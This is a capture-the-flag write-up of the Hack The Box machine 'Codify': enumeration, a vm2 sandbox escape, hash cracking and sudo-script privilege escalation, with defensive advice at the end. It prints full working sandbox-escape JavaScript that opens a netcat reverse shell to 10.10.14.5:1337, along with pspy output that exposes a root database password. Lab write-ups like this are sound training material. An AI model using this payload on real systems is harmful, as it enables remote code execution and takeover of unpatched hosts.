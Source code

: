 ## Information

| Property     | Value                       |
|--------------|-----------------------------|
| **Name**     | Codify   |
| **IP Address**|  10.10.11.239      |
| **OS**       |   Linux      |
| **Difficulty**| Easy   |

## Enumeration
### Nmap Scan
```bash
nmap -sC -sV -oN nmap_scan.txt -Pn 
```


```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Codify
3000/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Hostname:** http://codify.htb/
## Initial Access
### Port [80] - [Codify Web Application]

![[Codify Writeup - About Us interface.png]]

The application serves an Node JS editor in a sandboxed environment using [vm2 library](https://github.com/patriksimek/vm2)


![[Editor - SSTI.png]]


#### Vulnerability Exploited

VM2 library sufferes from a[ sandbox escape vulnerability](https://www.bleepingcomputer.com/news/security/new-sandbox-escape-poc-exploit-available-for-vm2-library-patch-now/)  that makes it possible to execute unsafe code on a host running the VM2 sandbox.
#### Exploitation Steps

Executing the following code will result in a reverse shell establishment: 
```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 1337 >/tmp/f'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

The malicious code gets executed a low priveleged user called  **scv**, we need to escalate our priveleged to the second user called **Joshua.**

### User Access

The tickets database found under /var/www/contact contains Joshua hashed password. 

```bash
(remote) svc@codify:/var/www/contact$ strings tickets.db 
SQLite format 3
otableticketstickets
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
	tableusersusers
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    ))
indexsqlite_autoindex_users_1users
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/<REDACTED>G/p/Zw2
joshua
users
tickets
Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open
Tom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open

```
#### User Flag

Cracking the password will reveal the user's password which can be used to establish an ssh connection to the box. 

## Privilege Escalation

Joshua can run the following script with elevated privileges: 
```
joshua@codify:~$ sudo -l 
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'

```

No escaping on the user password can be bypassed with a wildcard character:

Resource:
https://superuser.com/questions/1056183/using-a-wildcard-in-a-condition-to-match-the-beginning-of-a-string


Then running pspy with recursive mode on the backup directory to retrieve the password when the mysqldump command gets executed: 


```bash
./pspy64 -r /var/backups/mysql
...
2023/11/13 19:58:28 CMD: UID=0     PID=1      | /sbin/init 
2023/11/13 19:58:29 CMD: UID=0     PID=23715  | /bin/bash /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:29 CMD: UID=0     PID=23714  | sudo /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:29 CMD: UID=0     PID=23713  | sudo /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:31 CMD: UID=0     PID=23725  | /bin/bash /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:31 CMD: UID=0     PID=23724  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql 
2023/11/13 19:58:31 CMD: UID=0     PID=23729  | /bin/bash /opt/scripts/mysql-backup.sh -x 
2023/11/13 19:58:31 CMD: UID=0     PID=23728  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12REDACTEDkjh3 sys 
...

```


#### Root Flag

The extracted password is the root password and can be used to su through. 
## Conclusion

1. **Initial Access:**
    - **Tactic:** Exploit Public Facing Application
    - **Technique:** Exploitation for Client Execution
    - **MITRE ATT&CK ID:** T1190

1. **Execution:**
    - **Tactic:** Execution
    - **Technique:** Exploitation for Client Execution
    - **MITRE ATT&CK ID:** T1203

2. **Privilege Escalation:**
    - **Tactic:** Privilege Escalation
    - **Technique:** Abuse Elevation Control Control Mechanism
    - **MITRE ATT&CK ID:** T1548.002

3. **Credential Access:**
    - **Tactic:** Credential Access
    - **Technique:** Input Capture
    - **MITRE ATT&CK ID:** T1056

![[Codify Writeup - Mitre Attack Mapping.png]]
## Additional Notes
### Defensive Techniques
- Keep software and libraries up to date to patch known vulnerabilities.
- Implement proper input validation and sanitization in the web application to prevent injection attacks.
- Review and restrict sudo permissions to only necessary commands and users.
- Don't input sensitive data, such as passwords, directly as bash commands from the command line to prevent accidental exposure.



